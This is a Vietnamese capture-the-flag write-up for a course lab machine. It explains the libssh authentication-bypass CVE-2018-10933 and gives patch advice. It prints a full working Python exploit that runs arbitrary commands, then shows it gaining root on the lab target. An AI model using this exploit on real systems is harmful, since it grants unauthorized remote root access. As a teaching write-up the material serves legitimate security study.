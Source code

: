 ```yaml
---
title: \[Write-Up\] Bob Machine
subtitle: Linux Challenge trong môn An toàn mạng máy tính
readtime: true
thumbnail-img: /assets/img/BobMachine/thumbnail.jpeg
cover-img: /assets/img/BobMachine/cover-img.jpeg
tags: [Linux, Machine, Libssh, CVE]
---
```


## Hí,

Đây là một Linux Box ở mức tương đối dễ. Tuy nhiên, để khi làm những bài như này sẽ giúp nâng cao trình exploit và rèn luyện tư duy của mình dần dần.  

## **Thông tin dịch vụ**

| Địa chỉ IP      | Các port đang mở |
| ----------- | ----------- |
| 192.168.19.112  | TCP: 22, 25, 53, 80, 110, 143, 443, 587, 993,995, 3306, 7337   |
|    | UDP: Không có  |

## **Leo thang đặc quyền**

**Lỗ hổng đã khai thác:**

> **LibSSH 0.7.6 / 0.8.4 - Unauthorized Access (CVE-2018-10933)**

**Giải thích lỗ hổng:**
Một lỗ hổng nghiêm trọng trong Libssh, thư viện triển khai Secure Shell (SSH) đã đửợc phát hiện, cho phép vượt quá cơ chế xác thực và chiếm quyền quản trị trên máy chủ tồn tại lỗ hổng mà không cần mật khẩu. Lỗ hổng được đặt tên là `CVE-2018-10933`, tồn tại trong phiên bản Libssh 0.6 đửợc phát hành trước năm 2014, khiến máy chủ các doanh nghiệp bị tấn công khi sử dụng các phiên bản trửớc 0.7.6 và 0.8.4. Nhửng rất may là OpenSSH và triển khai libssh trên Github không bị ảnh hửởng bởi lỗ hổng. Lỗ hổng xuất phát từ lỗi codế trong Libssh và "vô cùng đơn giản" để khai thác. Kẻ tấn công chỉ cần gửi một thông điệp `SSH2_MSG_USERAUTH_SUCCESS` tới một
máy chủ có kết nối SSH đửợc kích hoạt, tháy vì thông điệp chính xác là `SSH2_MSG_USERAUTH_REQUEST`. Vì lỗi logic trong libssh, thử viện không xác thực đửợc gói tin “đăng nhập thành công” đửợc gửi bởi máy chủ hay từ client và cũng không thể kiểm tra chính xác quá trình xác thực đã hoàn thành hay chưa. Do đó, nếu kẻ tấn công từ xa (client) gửi phản hồi `SSH2_MSG_USERAUTH_SUCCESS` này tới libssh, libssh coi xác thực đã thành công và cấp cho kẻ tấn công quyền truy cập vào máy chủ mà không cần nhập mật khẩu. Libssh đã giải quyết vấn đề này bằng việc phát hành các phiên bản libssh 0.8.4 và 0.7.6 vào ngày 16/10/2018, đồng thời công bố thông tin chi tiết của lỗ hổng.

**Khuyến nghị vá lỗ hổng:**
Nếu đã cài đặt Libssh trên trang web và đang sử dụng thành phần máy chủ, người dùng được khuyến cáo nên cài đặt các phiên bản cập nhật của Libssh trong thời gian sớm nhất.

**Mức độ ảnh hưởng:** [Cao] (CVSS Score: 6.4)

**Cách thức khai thác:**

```js
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

#pip3 install paramiko==2.0.8
#logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
logging.basicConfig(stream=sys.stdout)
bufsize = 2048

def execute(hostname, port, command):

 sock = socket.socket()

 try:
    sock.connect((hostname, int(port)))
    message = paramiko.message.Message()
    transport = paramiko.transport.Transport(sock)
    transport.start_client()
    message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
    transport._send_message(message)
    client = transport.open_session(timeout=10)
    client.exec_command(command)
    # stdin = client.makefile("wb", bufsize)
    stdout = client.makefile("rb", bufsize)
    stderr = client.makefile_stderr("rb", bufsize)
    output = stdout.read()
    error = stderr.read()
    stdout.close()
    stderr.close()
    return (output+error).decode()

 except paramiko.SSHException as e:
    logging.exception(e)
    logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")

 except socket.error:
    logging.debug("Unable to connect.")
 return None
 
if __name__ == '__main__':
 print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

**Các bước khai thác:**

Sử dụng công cụ nmap thực hiện quét các port đáng mở trên máy mục tiêu 192.168.19.112. Kết quả cho thấy có 12 port TCP đáng mở gồm: `22, 25 53, 80, 110, 143, 443, 587, 993, 995, 3306, 7337`.

![nmap all ports](/assets/img/BobMachine/nmap.png){: .mx-auto.d-block :}

Sau nhiều thời gian khám phá, scan tất cả các port từ trên xuống dưới, ta tìm ra lỗ hổng từ port `7337` với dịch vụ SSH phiên bản `libssh 0.8.3`

![nmap 7337](/assets/img/BobMachine/nmap2.png){: .mx-auto.d-block :}

Thực hiện tìm kiếm các mã exploit phiên bản libssh này bằng công cụ searchsploit. Kết quả trả về 2 lỗ hổng liên quan đến libssh bao gồm mã exploit có thể sử dụng. Sau quá trình khai thác lỗ hổng đầu tiên không thành công, ta thực hiện khai thác lỗ hổng `Unauthorized Access` của libssh (đã đề cập ở trên). Truy cập đường dẫn và sử dụng mã nguồn đã cung cấp ở trên.

![searchsploit](/assets/img/BobMachine/libssh_cve.png){: .mx-auto.d-block :}

Mã exploit trên là đoạn mã python3, được ta sử dụng với 3 tham số: `IP nạn nhân (192.168.19.112), Port (7337), Command (lệnh thực thi trên shell)`. Dưới đây chúng tôi sử dụng lệnh `ls` để kiểm chứng.

![ls](/assets/img/BobMachine/exploit_ls.png){: .mx-auto.d-block :}

Kết quả trả về gồm các thư mục hiện có trên máy nạn nhân.

**Hình ảnh minh chứng:**

Kiểm tra tên user bằng lệnh whoami, thì kết quả cho thấy chúng tôi đã exploit được và leo thang đặc quyền lên root.

![whoami](/assets/img/BobMachine/whoami.png){: .mx-auto.d-block :}

**Nội dung tập tin Proof.txt:**

Tìm kiếm file proof.txt bằng `find / -uname proof.txt 2>/dev/null`. Kết quả trả về `root/proof.txt`, `cat` để xem nội dung flag có trong tập tin proof.txt.

![flag](/assets/img/BobMachine/flag.png){: .mx-auto.d-block :}

> **FLAG: flag{khong_som_thi_chieu_khong_mai_thi_mo}**

Tèn tèn, đã giải quyết xong challenge này tương đối easy vì đã có code exploit sẵn.
